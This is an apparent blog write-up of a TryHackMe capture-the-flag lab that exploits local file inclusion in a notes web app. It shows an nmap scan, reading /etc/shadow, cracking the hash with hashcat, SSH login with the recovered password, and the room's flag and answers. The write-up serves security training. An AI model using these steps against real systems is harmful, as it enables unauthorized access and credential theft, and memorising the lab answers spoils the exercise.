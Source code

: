 ```yaml
---
title: "Advent of Cyber Day 15 LFI"
author: Ludovic COULON
date: 2020-05-08
hero: ./images/hero.png
excerpt: "Advent of Cyber Day 15 LFI"
secret: true
---
```


[TryHackMe | Advent of Cyber](https://tryhackme.com/room/25daysofchristmas)

Elf Charlie likes
to make notes and store them on his server. Are you able to take
advantage of this functionality and crack his password?

Read the supporting materials [here](https://blog.tryhackme.com/lfi/).

### Setup

```bash
kali@kali:~$ nmap -A -vv 10.10.45.154
```

```bash
22/tcp open ssh syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 27:97:56:c6:7d:87:00:2d:a3:9c:90:60:9c:17:ae:8d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCpcxSjvRT07NjHQOXap9xTO5mWnscMVSvlwVNNn3FT9phbKzzsD3ZXnIYcUHTIak8wKlGnSBmgjlVCgbzebvZDprNrjFDzQZZ+GX2ZJ+GtsPTZIbf3ynYVPfeLBdfuYYnkwf4U2o4em4CRSGzd+MUuLGNYMcKOC9h0g7kU4NybDVwgT6W9KDNeBqzd1oOnSj26hvYTO2N+6vIfwyIFrzASBp/1Sjy830vQdobpzL9r4Cb7sG8cBx1qw5iy6ImZXrRFt33+hNFCcMDr0XUMcw+6xvoEfWDAZoEqCRUaRKtDEcGnENW3NPG/YMhqXNoYq6qLzLIUnwzj3n2wEV/JCULj
|   256 3b:4c:29:10:da:0b:17:6c:ba:de:d0:66:66:20:c5:df (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGzgpJOUVURY/Wfz66y/OR17GgMyN05IcMVmVO2wE560O/KwqqX0qmlIZ60fjqpTd8dXXD2oYY4mUju4kh1hYTk=
|   256 15:70:d4:d5:aa:b6:4f:98:7f:2d:90:d8:b7:74:88:a6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB5uDVGTfyLrVZrQzYS+YZJBtTBRFNLwueR4k+/DYdjp

80/tcp open http syn-ack Node.js (Express middleware)
|_http-favicon: Unknown favicon MD5: DBC69DB56435575CDC5CF45C96045958
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Public Notes
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### #1 What is Charlie going to book a holiday to?

<div className="Image__Medium">
  <img src="https://imgur.com/chYu9Xf.png" alt="blog_image" />
</div>

```bash
Hawaii
```

### #2 Read /etc/shadow and crack Charlies password.

If we check the source code of the webpage

```bash
<script>
  function getNote(note, id) {
     const url = '/get-file/' + note.replace(/\//g, '%2f')
      $.getJSON(url,  function(data) {
	 document.querySelector(id).innerHTML = data.info.replace(/(?:\r\n|\r|\n)/g, '<br>');
        })
      }
      // getNote('server.js', '#note-1')
      getNote('views/notes/note1.txt', '#note-1')
      getNote('views/notes/note2.txt', '#note-2')
      getNote('views/notes/note3.txt', '#note-3')
  </script>
```

Now let's fire up burp suite and make some LFI :D

<div className="Image__Medium">
  <img src="https://imgur.com/iv4ifNY.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/Ah1MO52.png" alt="blog_image" />
</div>

Now that we have charlie's password hash let's crack it !

```bash
# Hash to decode
$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.
```

```bash
sudo hashcat -m 1800 -a 0 --force -o crack.txt hash.txt /usr/share/wordlists/rockyou.txt
```

```bash
kali@kali:~$ sudo cat crack.txt
"password1"
```

### #3 What is flag1.txt?

Let's access the machine now with charlie's password

```bash
kali@kali:~$ ssh charlie@10.10.45.154

The authenticity of host 10.10.45.154 (10.10.45.154) cant be established.
ECDSA key fingerprint is SHA256:FTprTqjO/Yb1cVxlvn/P9VvlOeZMFbs4eQwOOTUqhg4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.45.154' (ECDSA) to the list of known hosts.

charlie@10.10.45.154 password: "password1"
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-1092-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

65 packages can be updated.
32 updates are security updates.

Last login: Fri Dec 13 21:44:29 2019 from 10.8.11.98

charlie@ip-10-10-45-154:~$
```

```bash
charlie@ip-10-10-45-154:~$ ls
flag1.txt
charlie@ip-10-10-45-154:~$ cat flag1.txt
'THM{4ea2adf842713ad3ce0c1f05ef12256d}'
```
